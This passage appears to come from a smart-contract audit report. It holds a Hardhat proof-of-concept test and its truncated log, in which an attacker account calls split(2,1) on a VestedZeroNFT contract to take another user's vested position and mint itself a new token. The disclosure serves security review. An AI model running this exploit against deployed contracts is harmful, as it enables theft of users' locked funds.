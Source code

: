 ```typescript
    lastTokenId = await vest.lastTokenId();
    console.log("Ant address: ", ant.address);
    
    console.log("The address of the owner of the TokenId: ", lastTokenId, await vest.ownerOf(lastTokenId));
    expect(await vest.ownerOf(lastTokenId)).eq(ant.address);
    
    console.log("Get tokenIdToLockDetails of the lastTokenId");
    let tokenIdToLockDetails = await vest.tokenIdToLockDetails(lastTokenId);
    console.log("tokenIdToLockDetails: ", tokenIdToLockDetails); 
    
    /*-------------------------------------*/

    console.log("Execute the attack to steal the amount of pending of the VestedZeroNFT to mint a new tokenID for the attacker");
    const [attacker] = await hre.ethers.getSigners();
    console.log("Attacker address: ", attacker.address);

    console.log("Call split to theft the tokenID of Ant");
    console.log("LastTokenId: ", lastTokenId);
   
    await vest.connect(attacker).split(2,1) ;

    tokenIdToLockDetails = await vest.tokenIdToLockDetails(lastTokenId);
    expect(await vest.ownerOf(2)).eq(ant.address);

    console.log("tokenIdToLockDetails: ", tokenIdToLockDetails); 

    lastTokenId = await vest.lastTokenId();
    console.log("The owner address of the lastTokenId: ", await vest.ownerOf(lastTokenId));
    expect(await vest.ownerOf(lastTokenId)).eq(attacker.address);

    console.log("Get tokenIdToLockDetails of the lastTokenId");
    tokenIdToLockDetails = await vest.tokenIdToLockDetails(lastTokenId);
    console.log("tokenIdToLockDetails: ", tokenIdToLockDetails); 

  });
```

In the above POC, to execute the attack, the hacker call the split function 


```typescript
await vest.connect(attacker).split(2,1) ;
```



Test log:  
Full Test Log:  https://drive.google.com/file/d/1uQI10CD-J9HB4KweMPAlMUj19OEzadk0/view?usp=sharing

```
Create the pre-condition setup for attack: User Ant has 1 VestedZeroNFT
The address of the owner of the lastTokenId:  0x9E545E3C0baAB3E08CdfD552C960A1050f373042
The address of StakingBonus contract:  0x9E545E3C0baAB3E08CdfD552C960A1050f373042
Mint a VestedZeroNFT for Ant by calling mint() function of VestedZeroNFT contract
Zero balance of Ant 0n
Zero balance of vestZeroNFT contract 10000000000000000000000n
Ant address:  0x70997970C51812dc3A010C7d01b50e0d17dc79C8
The address of the owner of the TokenId:  2n 0x70997970C51812dc3A010C7d01b50e0d17dc79C8
Get tokenIdToLockDetails of the lastTokenId
tokenIdToLockDetails:  Result(10) [
  0n,
  1710065933n,
  0n,
  10000000000000000000000n,
  0n,
```